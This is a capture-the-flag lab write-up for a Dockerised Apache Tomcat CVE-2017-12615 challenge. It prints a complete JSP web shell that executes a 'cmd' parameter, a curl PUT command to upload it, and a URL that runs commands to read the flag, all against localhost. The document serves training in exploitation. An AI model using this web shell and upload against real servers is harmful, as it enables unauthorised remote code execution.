 # Challenge 7: Tom & Jerry

## How to Start
```bash
docker compose pull
docker compose up -d
```

---

## Description
This challenge demonstrates how to upload a malicious payload to a vulnerable Apache Tomcat server in order to gain **remote shell access**.

---

## Solution

### 1. Create `shell.jsp`
```jsp
<% 
  if(request.getParameter("cmd") != null) {
    String cmd = request.getParameter("cmd");
    String output = "";
    Process p = Runtime.getRuntime().exec(cmd);
    java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));
    String line = null;
    while ((line = reader.readLine()) != null) {
        output += line + "<br>";
    }
    out.println(output);
  }
%>
```

### 2. Upload the Payload
```bash
curl -v -X PUT "http://localhost:8010/shell.jsp/" --data-binary "@shell.jsp" -H "Content-Type: application/octet-stream"
```

### 3. Access the Web Shell
Once uploaded, execute commands through the shell, for example, to retrieve the flag:
```bash
http://localhost:8010/shell.jsp?cmd=cat%20/usr/local/tomcat/webapps/ROOT/flag.txt
```

**Flag:**
```
flag{tomcat_rce_success}
```

---

## How to Recreate

### 1. Clone Vulhub Repository
```bash
git clone https://github.com/vulhub/vulhub
```

### 2. Navigate to the Tomcat CVE Directory
```bash
cd vulhub/tomcat/CVE-2017-12615
```

### 3. Build and Start the Container
```bash
docker compose up -d
```

### 4. Verify in Browser
Visit:
```
http://localhost:<port>
```

### 5. Add the Flag
Enter the container:
```bash
docker exec -it <container_id> /bin/bash
```
Create the flag file:
```bash
echo "flag{tomcat_rce_success}" > /usr/local/tomcat/webapps/ROOT/flag.txt
```

---

## Final Notes
This challenge demonstrates the risk of improperly secured file upload mechanisms and outdated Tomcat configurations, which can allow attackers to upload and execute arbitrary code.
